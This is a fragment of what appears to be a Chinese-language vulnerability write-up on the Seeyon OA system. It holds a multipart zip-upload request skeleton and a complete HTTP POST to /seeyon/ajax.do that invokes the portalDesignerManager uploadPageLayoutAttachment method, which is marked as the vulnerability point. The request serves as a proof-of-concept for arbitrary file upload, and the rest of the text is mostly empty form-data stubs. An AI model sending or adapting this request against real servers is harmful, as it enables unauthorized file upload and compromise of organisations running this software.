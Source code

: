 ```


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 


-----------------------------1416682316313
Content-Disposition: form-data; 
Content-Type: application/x-zip-compressed

zip文件
-----------------------------1416682316313--
```

```
/seeyon/ajax.do
```

![](https://mmbiz.qpic.cn/mmbiz/7D2JPvxqDTFLHfPb8bEibsj7VDYNMzj0ibPZg4lrSgB7Q23sFekWFibJ8ib3wCic1SS8lr9b2AJIwicW9DGJOhtLCic4w/640?wx_fmt=other)上传压缩文件

漏洞点：

```
POST /seeyon/ajax.do HTTP/1.1
Host: 192.168.1.88:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: JSESSIONID=A4D1CCA965228F523B70833968568BE6
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 142

method=ajaxAction&managerName=portalDesignerManager&managerMethod=uploadPageLayoutAttachment&arguments=[0,"2021-04-10","2708692024033719158"]
```
